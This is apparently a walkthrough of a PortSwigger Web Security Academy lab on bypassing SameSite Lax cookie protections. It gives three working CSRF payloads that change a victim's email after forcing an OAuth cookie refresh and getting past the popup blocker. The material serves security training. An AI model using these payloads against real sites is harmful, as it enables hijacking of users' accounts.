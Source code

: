 ```yaml
---
dg-publish: true
---
```







### **Study the change email function**

1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the [OAuth](https://portswigger.net/web-security/oauth) flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

### **Attempt a** [**CSRF attack**](https://portswigger.net/web-security/csrf)

1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:`<script> history.pushState('', '', '/') </script> <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST"> <input type="hidden" name="email" value="foo@bar.com" /> <input type="submit" value="Submit request" /> </form> <script> document.forms[0].submit(); </script>`
3. Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:
    - If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
    - If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy > HTTP history** tab, find the `POST /my-account/change-email` request and confirm that your session cookie was included even though this is a cross-site `POST` request.

### **Bypass the SameSite restrictions**

1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:`<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@web-security-academy.net"> </form> <script> window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); function changeEmail(){ document.forms[0].submit(); } </script>`
    
    Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
    
5. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.
6. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

### **Bypass the popup blocker**

1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:`<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net"> </form> <p>Click anywhere on the page</p> <script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>`
3. Test the attack on yourself again while monitoring the proxy history in Burp.
4. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.
5. Go to your account page and confirm that your email address has changed.
6. Change the email address in your exploit so that it doesn't match your own.
7. Deliver the exploit to the victim to solve the lab.